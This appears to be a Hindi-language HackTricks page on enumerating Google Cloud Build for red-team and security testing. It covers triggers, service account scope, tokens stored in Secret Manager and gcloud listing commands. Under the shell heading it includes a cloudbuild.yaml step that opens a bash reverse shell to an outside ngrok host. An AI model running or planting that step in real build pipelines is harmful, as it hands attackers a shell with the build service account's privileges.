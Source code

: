 # GCP - Cloud Build Enum

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह में शामिल हों**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **Twitter** 🐦 पर **मुझे फॉलो करें** [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## मूल जानकारी

Google Cloud Build एक प्रबंधित CI/CD प्लेटफॉर्म है जो **सॉफ्टवेयर बिल्ड** और रिलीज प्रक्रियाओं को **स्वचालित करता है**, **स्रोत कोड रिपोजिटरीज** के साथ एकीकृत होता है और विभिन्न प्रोग्रामिंग भाषाओं का समर्थन करता है। यह **डेवलपर्स को कोड को बिल्ड, टेस्ट, और स्वचालित रूप से डिप्लॉय करने की अनुमति देता है** और बिल्ड स्टेप्स और वर्कफ्लोज को कस्टमाइज करने की लचीलापन प्रदान करता है।

प्रत्येक Cloud Build Trigger **एक Cloud Repository से संबंधित होता है या सीधे एक बाहरी रिपोजिटरी से जुड़ा होता है** (Github, Bitbucket और Gitlab).

{% hint style="success" %}
मैंने यहाँ से या Cloud Repositories से Github/Bitbucket टोकन चुराने का कोई तरीका नहीं देखा क्योंकि जब रिपो डाउनलोड की जाती है तो इसे [https://source.cloud.google.com/](https://source.cloud.google.com/) URL के माध्यम से एक्सेस किया जाता है और Github को क्लाइंट द्वारा एक्सेस नहीं किया जाता है।
{% endhint %}

### घटनाएँ

Cloud Build निम्नलिखित स्थितियों में ट्रिगर किया जा सकता है:

* **एक शाखा में पुश**: शाखा का विवरण दें
* **नया टैग पुश करें**: टैग का विवरण दें
* **पुल रिक्वेस्ट**: PR प्राप्त करने वाली शाखा का विवरण दें
* **मैन्युअल आह्वान**
* **Pub/Sub संदेश:** विषय का विवरण दें
* **वेबहुक इवेंट**: एक HTTPS URL प्रदर्शित करेगा और अनुरोध को एक गुप्त के साथ प्रमाणित किया जाना चाहिए

### निष्पादन

तीन विकल्प हैं:

* yaml/json **जिसमें निष्पादित करने के लिए आदेश निर्दिष्ट होते हैं**। आमतौर पर: `/cloudbuild.yaml`
* केवल एक जिसे वेब कंसोल और cli में "इनलाइन" निर्दिष्ट किया जा सकता है
* सबसे आम विकल्प
* अप्रमाणित पहुँच के लिए प्रासंगिक
* **Dockerfile** बिल्ड करने के लिए
* **Buildpack** बिल्ड करने के लिए

### SA अनुमतियाँ

**सर्विस अकाउंट के पास `cloud-platform` स्कोप होता है**, इसलिए यह **सभी विशेषाधिकारों का उपयोग कर सकता है।** यदि **कोई SA निर्दिष्ट नहीं किया गया है** (जैसे कि सबमिट करते समय) तो **डिफ़ॉल्ट SA** `<proj-number>@cloudbuild.gserviceaccount.com` **का उपयोग किया जाएगा।**

डिफ़ॉल्ट रूप से कोई अनुमतियाँ नहीं दी जाती हैं लेकिन इसे कुछ अनुमतियाँ देना काफी आसान है:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### अनुमोदन

Cloud Build को बिल्ड निष्पादनों के लिए **अनुमोदन की आवश्यकता होने के लिए कॉन्फ़िगर किया जा सकता है** (डिफ़ॉल्ट रूप से अक्षम).

### कनेक्शन और रिपोजिटरीज

कनेक्शन निम्नलिखित के माध्यम से बनाए जा सकते हैं:

* **GitHub:** यह एक OAuth प्रॉम्प्ट दिखाएगा जो **एक Github टोकन प्राप्त करने के लिए अनुमतियाँ मांगेगा** जिसे **Secret Manager के अंदर संग्रहीत किया जाएगा।**
* **GitHub Enterprise:** यह एक **GithubApp** स्थापित करने के लिए कहेगा। आपके GitHub Enterprise होस्ट से एक **प्रमाणीकरण टोकन** बनाया जाएगा और इस प्रोजेक्ट में एक S**ecret Manager** गुप्त के रूप में संग्रहीत किया जाएगा।
* **GitLab / Enterprise:** आपको **API एक्सेस टोकन और Read API एक्सेस टोकन प्रदान करना होगा** जिसे **Secret Manager में संग्रहीत किया जाएगा।**

एक बार कनेक्शन उत्पन्न हो जाने के बाद, आप इसे उन रिपोजिटरीज से जोड़ने के लिए उपयोग कर सकते हैं जिन तक Github अकाउंट की पहुँच है।

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
ध्यान दें कि इस विधि से जुड़ी रिपोजिटरीज **केवल 2nd जनरेशन का उपयोग करने वाले Triggers में उपलब्ध हैं।**
{% endhint %}

### एक रिपोजिटरी कनेक्ट करें

यह **`connection`** के समान नहीं है। यह **विभिन्न** तरीकों से एक Github या Bitbucket रिपोजिटरी तक **पहुँच प्राप्त करने की अनुमति देता है** लेकिन **कनेक्शन ऑब्जेक्ट उत्पन्न नहीं करता है, लेकिन यह एक रिपोजिटरी ऑब्जेक्ट (1st जनरेशन) उत्पन्न करता है।**

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### स्टोरेज

कभी-कभी Cloud Build **ट्रिगर के लिए फाइलों को स्टोर करने के लिए एक नया स्टोरेज उत्पन्न करेगा**। यह उदाहरण के लिए GCP के साथ होता है:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
एक स्टोरेज बकेट जिसका नाम [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) है, उसे `.tgz` फाइलों को स्टोर करने के लिए बनाया गया है जिनका उपयोग किया जाना है।

### शेल प्राप्त करें
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### सूचीकरण

आप **build configs और logs में संवेदनशील जानकारी पा सकते हैं**।
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### विशेषाधिकार वृद्धि

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### अप्रमाणित पहुँच

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग तरकीबें साझा करें.

</details>
